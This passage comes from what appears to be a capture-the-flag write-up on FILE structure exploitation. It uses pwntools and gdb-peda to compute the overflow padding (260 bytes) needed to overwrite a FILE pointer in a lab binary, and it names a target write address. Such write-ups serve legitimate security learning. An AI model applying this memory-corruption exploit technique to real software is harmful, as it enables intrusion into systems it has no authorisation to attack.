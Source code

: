 The address I'm going to write to is `0xffffd991`. Last but not least, the padding needed to overwrite the FILE 
pointer. To do this I used `pwntools`' `cyclic()`, `fit()` functions and `gdb` with `peda`:

pwntools:
```python
>>> from pwn import *
>>> def encrypt(p):
...  new_p = ''
...  for c in p:
...   new_p += chr(ord(c) ^ 42)
...  return new_p
...
>>> encrypt(cyclic(300))
'KKKKHKKKIKKKNKKKOKKKLKKKMKKKBKKKCKKK@KKKAKKKFKKKGKKKDKKKEKKKZKKK[KKKXKKKYKKK^KKK_KKK\\KKK]KKKRKKKSKKKPKKHHKKHIKKHNKKHOKKHLKKHMKKHBKKHCKKH@KKHAKKHFKKHGKKHDKKHEKKHZKKH[KKHXKKHYKKH^KKH_KKH\\KKH]KKHRKKHSKKHPKKIHKKIIKKINKKIOKKILKKIMKKIBKKICKKI@KKIAKKIFKKIGKKIDKKIEKKIZKKI[KKIXKKIYKKI^KKI_KKI\\KKI]KKIRKKISKKI
```

gdb:
```
$ gdb ./vuln -q
Reading symbols from ./vuln...done.
gdb-peda$ b *main+233
Breakpoint 1 at 0x804865f: file vuln.c, line 27.
gdb-peda$ r abc $(python -c "print 'KKKKHKKKIKKKNKKKOKKKLKKKMKKKBKKKCKKK@KKKAKKKFKKKGKKKDKKKEKKKZKKK[KKKXKKKYKKK^KKK_KKK\\KKK]KKKRKKKSKKKPKKHHKKHIKKHNKKHOKKHLKKHMKKHBKKHCKKH@KKH
AKKHFKKHGKKHDKKHEKKHZKKH[KKHXKKHYKKH^KKH_KKH\\KKH]KKHRKKHSKKHPKKIHKKIIKKINKKIOKKILKKIMKKIBKKICKKI@KKIAKKIFKKIGKKIDKKIEKKIZKKI[KKIXKKIYKKI^KKI_KKI\\KKI]KKIRKKISKKI'")
[-------------------------------------code-------------------------------------]
   0x8048655 <main+223>:        lea    eax,[ebx-0x122d]
   0x804865b <main+229>:        push   eax
   0x804865c <main+230>:        push   DWORD PTR [ebp-0x1c]
=> 0x804865f <main+233>:        call   0x8048420 <fprintf@plt>
   0x8048664 <main+238>:        add    esp,0x10
   0x8048667 <main+241>:        sub    esp,0xc
   0x804866a <main+244>:        push   0x0
   0x804866c <main+246>:        call   0x80483f0 <exit@plt>
Guessed arguments:
arg[0]: 0x63616170 ('paac')
arg[1]: 0x8048713 ("%s : %s\n")
arg[2]: 0xffffd1bd --> 0x636261 ('abc')
arg[3]: 0xffffcdf8 ("aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaab"...)
```

The FILE pointer was overwritten by `oaac`. Using pwntools' `fit()` function I can get the padding needed:
```python
>>> len(fit({'paac':''}))
260
>>>
```


[link-1]: https://dhavalkapil.com/blogs/FILE-Structure-Exploitation/
[link-2]: https://www.slideshare.net/AngelBoy1/play-with-file-structure-yet-another-binary-exploit-technique
[link-3]: https://blog.bushwhackers.ru/tokyo2019-printf/
[link-4]: http://docs.pwntools.com/en/stable/
